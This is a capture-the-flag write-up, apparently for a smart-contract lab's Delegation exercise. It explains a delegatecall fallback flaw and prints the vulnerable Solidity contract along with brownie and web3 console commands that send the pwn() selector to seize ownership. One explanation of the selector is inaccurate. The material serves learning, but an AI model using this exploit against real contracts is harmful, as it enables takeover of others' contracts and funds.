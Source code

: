 
### Exercise 6: DelegateCall

Ownership of the vulnerable contract can be taken by a hacker by exploiting the contract's use of `delegate_call` and its fallback function.
NB: ownership of the `Delegate` contract can be taken extremely easily, simply by calling the contract's `pwn()` function directly, passing a new address as the new owner, i.e.

```bash
hacker = accounts.load('main')

contract = Delegate.at('0xB2f870a4e846513304B8D9DACCf2ec6Bad06a4Ed')
contract.pwn({'from':hacker})

```

However, that's not the point of this exercise - we want to take ownership of `Delegation` not `Delegate`. For this, the route to taking ownership is via the `delegate_call` vulnerabilty. The key components of this vulnerability are:

1. `Delegation.sol` makes a `delegate_call()` to `Delegate.sol` inside its fallback function.
2. `Delegate.sol` has a function `pwn()` that changes the contract ownership to `msg.sender()`
3. So to take ownership of `Delegation.sol`, we need to trigger its fallback function with params that cause `pwn()` to execute.

This works because `delegate_call` executes code from another contract <b>in the caller's context<b> meaning it updates the caller's storage. Therefore, updating the value of `owner` in `Delegate.sol` updates the value of `owner` in `Delegation.sol`, since the code in `Delegate.sol` is run in `Delegation.sol`'s context. Therefore, if we can get `Delegation.sol` to execute `pwn()` we take ownership of `Delegation.sol`.

To do this, we need to trigger the fallback function and also pass appropriate arguments that cause `pwn()` to be executed. Triggering the fallback function is achieved simply by sendng a transaction to the contract using `web3.sendTransaction()`. This triggers the fallback function because it does not invoke any of the explicitly defined functions in the contract. To trigger `pwn()` we provide the method ID for `pwn()` in `msg.data`. The format is the function name as hex-encoded bytes, so that `pwn()` = `0xdd365b8b`, padded to 32 bytes. We can then pass this hex-encoded instruction to execute `pwn()` to the fallback function and thereby take ownership of `Delegation.sol`.

### Vulnerable Contract

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}

```


### Execution

NB. This *should* work via brownie console, but web3.py's send_transaction function repeatedly hung for me and the transaction never completed.

```bash
hacker = accounts.load('main')
delegation = Delegation.at("0xB2f870a4e846513304B8D9DACCf2ec6Bad06a4Ed")
web3.eth.sendTransaction({'from':hacker.address, 'to':delegation.address, 'data':"0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"})

```

Instead, the following works, using web3js in the browser console (browser>inspect>console):

```javascript

>>> await web3.utils.keccak256("pwn()")
  >>> '0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'
>>> await contract.sendTransaction({'to': contract.address, 'from':'0xa0F57bd9E5F156BD60Ff214abA29c4cAF6d2C386', 'data':'0xdd365b8b'})
>>> contract.owner()
  >>> '0xa0F57bd9E5F156BD60Ff214abA29c4cAF6d2C386'


```
